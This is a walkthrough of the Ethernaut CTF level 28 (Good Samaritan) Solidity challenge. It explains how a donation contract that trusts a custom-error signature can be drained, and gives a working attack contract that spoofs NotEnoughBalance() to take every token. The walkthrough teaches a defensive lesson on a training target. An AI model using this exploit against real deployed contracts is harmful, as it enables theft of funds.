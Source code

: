 # Ethernaut Level 28 (Good Samaritan) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 28. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here is to be careful when using custom errors. Their signature can be computed just like that of a function, and thus relying on their signature for critical logic should be discouraged.

The goal here is simple, exploit the custom error `NotEnoughBalance()` in the contract, and transfer all the funds.

```
    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
```

The target contract's requestDonation() function gives out 10 tokens to the msg.sender. However, if this transfer fails with an error whose signature hash is equal to the signature hash of the custom error NotEnoughBalance(), the function sends all the remaining tokens held by the contract to the msg.sender.

#### Solution

1.  Deploy the attack contract containing the function through which we will make the call to `requestDonation`, the spoof custom error, and an implementation of `notify()` that reverts with this custom error.

```
contract Attack {
    // Custom error
    error NotEnoughBalance();

    constructor() payable{}

    function attack() public {
        (bool success, bytes memory data) = address(0x232c12938CDd7c29873E145330f7FD525BA04d93).call(
            abi.encodeWithSignature("requestDonation()")
        );
        require(success);
    }
    
    function notify(uint256 amount) external pure {
        // Revert with a custom error
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```

2.  Call attack() and all the funds will be transferred to the Attack contract.

The target contract relied on a custom error for critical logic. We spoofed that custom error and thus exploited the vulnerability, draining the contract for all of its tokens.